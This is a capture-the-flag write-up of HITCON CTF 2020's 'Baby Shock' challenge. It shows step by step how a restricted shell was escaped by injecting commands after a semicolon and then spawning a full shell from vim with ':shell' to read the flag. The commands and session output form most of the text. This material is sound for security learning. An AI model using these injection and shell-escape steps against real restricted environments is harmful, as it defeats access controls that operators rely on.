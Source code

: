 # Baby Shock  
_Category: misc_

## Description  
> `nc 54.248.135.16 1986`

## Short Solution  
```sh  
id ;vim  
exit  
:shell  
/readflag  
```

## Solution

When we connect to the server, we are running in a restricted shell, with very
few commands available to us:  
```sh  
connected!  
welcome to Baby shock, doo, doo, doo, doo, doo, doo!!!  
> help  
> Available Commands:  
pwd ls mkdir netstat sort printf exit help id mount df du find history touch  
>  vim  
> bad command: vim  
```

We can tell that some characters have been blacklisted by using them with a
comment, e.g.:  
```sh  
> id # foo  
> uid=1128 gid=2020  
id # -  
> bad command: id # -  
```

From this we can determine that attacking the programs we are allowed to
access directly is not likely to be fruitful, as all of those programs listed
will require at least a <kbd>-</kbd> character to be exploited.

Instead, attempting to attack the shell itself, it doesn't take long to see
that a <kbd>;</kbd> is allowed:  
```sh  
> id # ;  
> uid=1128 gid=2020  
```

This allows us to run commands outside of the restricted shell:  
```sh  
> id ; hostname  
> uid=1128 gid=2020  
ip-172-31-11-96  
```

Now we just need to find a program that will let us execute commands. This is
slightly complicated due to the way input handling is within the restricted
shell. As a result, attempting to run bash directly does not produce the
desired results:  
```sh  
> id ; bash  
> uid=1128 gid=2020  
whoami  
> bad command: whoami  
```

Instead of attempting to understand these issues, we simply used `vim` to
launch a fully interactive shell. It still required a little coaxing, but by
typing the solution from the beginning of the writeup in the correct order, we
get a fully interactive shell:  
```sh  
> id ; vim  
> uid=1128 gid=2020 groups=2020  
Vim: Warning: Output is not to a terminal  
Vim: Warning: Input is not from a terminal  
exit  
:shell  
/readflag  
hitcon{i_Am_s0_m155_s3e11sh0ck}  
```  

Original writeup (https://github.com/FrenchRoomba/ctf-writeup-HITCON-
CTF-2020/blob/master/baby-shock/README.md).
